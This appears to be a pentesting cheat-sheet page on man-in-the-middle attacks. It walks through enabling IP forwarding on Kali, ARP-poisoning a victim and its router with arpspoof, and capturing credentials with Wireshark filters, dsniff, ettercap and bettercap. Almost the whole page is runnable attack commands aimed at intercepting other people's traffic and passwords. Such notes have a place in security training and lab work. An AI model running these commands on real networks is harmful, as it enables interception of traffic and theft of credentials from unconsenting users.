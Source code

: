 # m - MITM

### Arp Poisoning

#### We 1st make our Kali machine able to forward traffic:

`echo 1 > /proc/sys/net/ipv4/ip_forward` - kali now acts as a router and forwards packet.

If the above dosen's work you can use:

`sysctl net.ipv4.ip_forward` - checks kali forwarding status if enabled or not, if net.ipv4.ip\_forward = 0 this means forwarding status is OFF.

`sudo sysctl -w net.ipv4.ip_forward=0` - **off/disable IP Forwarding.**

`sudo sysctl -w net.ipv4.ip_forward=1` - **on/enable IP Forwarding.**



Secondly, we convince the Victim that we are the Original Router, so send your request to me.

`arpspoof -i eth0 -t $target_ip $mainRouter_ip` - we specify the victim we want to confuse and the router ip we want to spoof.

Thirdly, we do same for the Original Router too, deceive it by tellin it we are the victim.

`arpspoof -i eth0 -t $mainRouter_ip $target_ip` - so the router now thinks we are the real client.

Lastly, we can use Wireshark to sniff the traffic. we can  apply the filter: !arp && http.authbasic.

### \[dsniff] utility

dsniff is a suite of tools that includes Active, Passive sniffers and MITM tools, and can be used for password sniffers for protocols like telnet, http, smtf, pop etc.

While the MITM attack is running, we just need to run dsniff on the interface and wait for the results.

`dsniff -i eth0` - we start to see credentials.

### \[ettercap]

`ettercap -G &` - to run in GUI mode.

### \[bettercap]

`sudo bettercap -iface wlan0` - launches the instance.

{% code overflow="wrap" lineNumbers="true" %}
```bash
>> net.probe on # scan all devices currently active on the network.
>> net.show # display all devices in network.
>> set arp.spoof.targets $victim_ip_to_spoof # enable spoofing on a host.
>> arp.spoof on # turn arpspoof on.
>> net.sniff on # then turn on net.sniff to start sniffing packets.
```
{% endcode %}




